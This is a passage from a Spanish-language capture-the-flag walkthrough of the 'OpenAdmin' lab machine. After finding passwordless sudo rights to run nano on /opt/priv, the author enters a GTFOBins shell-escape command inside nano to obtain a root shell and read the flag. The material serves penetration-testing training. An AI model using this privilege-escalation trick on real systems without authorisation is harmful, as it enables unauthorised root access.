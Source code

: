 Ya somos el usuario **joanna** y podemos visualizar la flag (user.txt). Ahora debemos enumerar un poco el sistema para ver de que forma nos convertimos en **root**.

```bash
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$
```

Vemos que podemos ejecutar `/bin/nano /opt/priv` como el usuario **root** sin proporcionar contraseña, por lo tanto vamos a utilizar nuestro recurso de confianza [gtfobins](https://gtfobins.github.io/gtfobins/nano/#shell) y para este caso la opción **a)** para obtener una shell como el propietario del binario, que es **root**.

```bash
joanna@openadmin:~$ sudo /bin/nano /opt/priv


Command to execute: reset; sh 1>&0 2>&0#                                                                                         
#  Get Help                                                     ^X Read File
#  Cancel                                                       M-F New Buffer
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

